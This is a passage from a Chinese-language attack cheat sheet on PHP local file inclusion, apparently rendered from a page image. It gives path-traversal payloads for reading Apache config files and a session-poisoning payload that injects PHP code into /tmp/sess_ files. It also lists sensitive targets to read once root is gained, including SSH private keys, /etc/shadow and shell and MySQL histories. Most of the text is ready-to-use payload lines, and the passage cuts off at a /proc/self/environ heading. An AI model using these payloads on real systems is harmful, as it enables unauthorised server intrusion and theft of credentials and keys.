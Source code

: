 你会发现WEB服务器一直不会返回响应，直到我们客户端断开这次连接，这个邪恶的空格便写入了WEB日志！


### 获取web目录或配置文件

```
?file=../../../../../../../../usr/local/apache2/conf/httpd.conf
/etc/apache2/httpd.conf
/etc/httpd/httpd.conf
```

### 包含上传附件

```
?file=../attachment/media/xx.file
```

### session 文件

包含Session文件的条件也较为苛刻，它需要攻击者能够"控制"部分Session文件的内容。

```
x|s:19:"<?php phpinfo(); ?>"
```

PHP默认生成的Session文件往往存放在/tmp目录下

```
/tmp/sess_SESSIONID

?file=../../../../../../../tmp/sess_xxxxx
```

session文件一般在/tmp目录下，格式为sess_[your phpsessid value]，有时候也有可能在/var/lib/php5之类的，在此之前建议先读取配置文件

#### 如果拥有root权限还可以试试读这些东西：

```
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_rsa.keystore
/root/.ssh/id_rsa.pub
/root/.ssh/known_hosts

/etc/shadow

/root/.bash_history
/root/.mysql_history

/proc/self/fd/fd[0-9]* (文件标识符)
/proc/mounts
/proc/config.gz
```

### /proc

#### 包含/proc/self/environ文件


[5]: http://php.net/manual/zh/features.file-upload.post-method.php